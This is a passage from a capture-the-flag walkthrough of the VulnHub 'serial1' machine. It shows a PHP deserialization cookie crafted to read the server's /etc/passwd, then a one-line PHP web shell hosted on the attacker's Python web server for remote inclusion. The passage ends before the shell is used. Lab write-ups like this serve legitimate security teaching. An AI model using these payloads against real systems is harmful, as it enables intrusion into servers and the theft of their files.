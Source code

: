To generate the cookie we can run `user.class.php` and it will create a serialized PHP object with the modifications we did previously:
```
kali@kali:~/vulnhub/serial1/source$ php user.class.php
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...[snip]...

LOG: caueTzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjQ6ImNhdWUiO3M6OToiAFVzZXIAd2VsIjtPOjM6IkxvZyI6MTp7czoxMzoiAExvZwB0eXBlX2xvZyI7czoxMToiL2V0Yy9wYXNzd2QiO319
```

### Reading Local Files
Adding the generated cookie to the browser and refreshing the page we can see the server `/etc/passwd` file:

![](images/untitled14.png)

Great! So now we reached local file inclusion through PHP object deserialization.

Ok, good, but every time we want to read a file we need to generate a new cookie and refresh the page again. What if we point the `type_log` variable to our machine so it would include our PHP file.

### Remote Code Execution
First we create a simple PHP web shell and call it `rce.php`:
```php rce.php
<?php
system($_REQUEST["cmd"]);
?>
```

Use Python to start web server and host the file:
```
kali@kali:~/vulnhub/serial1/www$ cat rce.php   
<?php
system($_REQUEST["cmd"]);
?>
                                                                                                                                                                                
kali@kali:~/vulnhub/serial1/www$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
